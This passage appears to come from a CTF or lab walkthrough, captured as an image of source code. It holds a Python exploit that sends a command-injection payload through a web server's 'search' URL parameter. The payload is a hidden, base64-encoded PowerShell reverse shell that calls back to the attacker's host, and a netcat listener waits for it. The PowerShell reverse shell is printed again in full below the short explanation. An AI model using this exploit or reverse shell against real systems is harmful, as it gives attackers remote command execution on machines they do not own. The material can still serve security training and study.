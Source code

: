 ```python
rhost = "10.10.10.8"
rport = 80

# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
print("\nEncoded the command in base64 format...")

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("\nEncoded the payload and sent a HTTP GET request to the target...")

# Print some information
print("\nPrinting some information for debugging...")
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
print("\nListening for connection...")
os.system(f'nc -lv {lport}')
```

This code is a pretty simple python implementation which allow us to put a reverse shell in the remote machine sending a command in the search section of the url `http://10.10.10.8/?search=%00{{.{encoded_payload}.}}`.

Bellow you can see the powershell command which we are using.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()
```

